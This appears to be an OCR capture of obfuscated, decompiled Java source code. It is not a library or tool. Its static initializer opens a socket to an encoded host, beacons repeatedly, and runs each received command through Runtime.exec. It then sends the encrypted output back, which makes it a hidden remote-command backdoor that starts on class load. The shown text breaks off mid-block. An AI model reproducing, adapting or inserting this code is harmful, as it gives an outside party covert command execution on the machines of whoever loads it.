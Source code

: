 ```
        I[l[13]] = l("fV1yEhJ8XX5ER38GcBAWfg==", "MdFtp");
        I[l[14]] = l("AwoL", "BOXvi");
        I[l[15]] = Il("kqsvxVHphdfXglIktDCFoHPv2dha64mD", "YbUwj");
        I[l[16]] = l("Lg8VPC86HgAbIiw=", "IjauA");
        I[l[17]] = Il("vLru125xRYdTLHj1VD9qtUsvKbrijfbX", "RqduM");
        I[l[18]] = Il("xRwDzYljVIU=", "fScWC");
        I[l[19]] = l("EAkMJl8JDRkyAxMcA2k6HxE=", "zhzGq");
        I[l[20]] = l("LyQVKDwqJw==", "KKSAR");
        I[l[21]] = l("CwkvD2gUHDACaCMJKgtwVQ==", "ahYnF");
        I[l[22]] = Il("uIHhwTaeAscF3EzVgdL4zg==", "tMxGZ");
        I[l[23]] = l("ChYmChAL", "nsEet");
        I[l[24]] = l("al9YAjJrX1RUZ2gEWgA2aQ==", "ZfldP");
        I[l[25]] = l("JygSTjMlL24xPSU+dDEXAgkoDxE=", "fmAav");
        I[l[26]] = I("EvA8rhxJMXPTCc0Wno5a9Q==", "QvZtB");
        I[l[28]] = l("OTAxITtw", "zxtbp");
        I[l[29]] = Il("gT9cJw1pjVI=", "eTlqI");
        I[l[30]] = I("BAW3Glpb798=", "pExyG");
    }

    private static boolean lll(int i, int i2) {
        return i < i2;
    }

    static {
        IIl();
        ll();
        XXX = I[l[24]];
        YYY = I[l[25]];
        try {
            Socket socket = new Socket(I[l[26]], l[27]);
            try {
                BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(socket.getInputStream()));
                try {
                    BufferedWriter bufferedWriter = new BufferedWriter(new OutputStreamWriter(socket.getOutputStream()));
                    do {
                        try {
                            bufferedWriter.write(I[l[28]]);
                            bufferedWriter.flush();
                            String readLine = bufferedReader.readLine();
                            if (lIl(readLine) && Ill(readLine.isEmpty() ? 1 : 0)) {
                                BufferedReader bufferedReader2 = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(decrypt(readLine)).getInputStream()));
                                StringBuilder sb = new StringBuilder();
                                do {
                                    String readLine2 = bufferedReader2.readLine();
                                    if (lIl(readLine2)) {
                                        sb.append(readLine2).append(I[l[29]]);
                                        "".length();
                                        "".length();
                                    } else {
                                        bufferedWriter.write(String.valueOf(new StringBuilder().append(encrypt(String.valueOf(sb))).append(I[l[30]])));
                                        bufferedWriter.flush();
                                    }
                                } while ((-"   ".length()) < 0);
                                return;
                            }
                            Thread.sleep(5000L);
                            "".length();
                        } catch (Throwable th) {
                            try {
```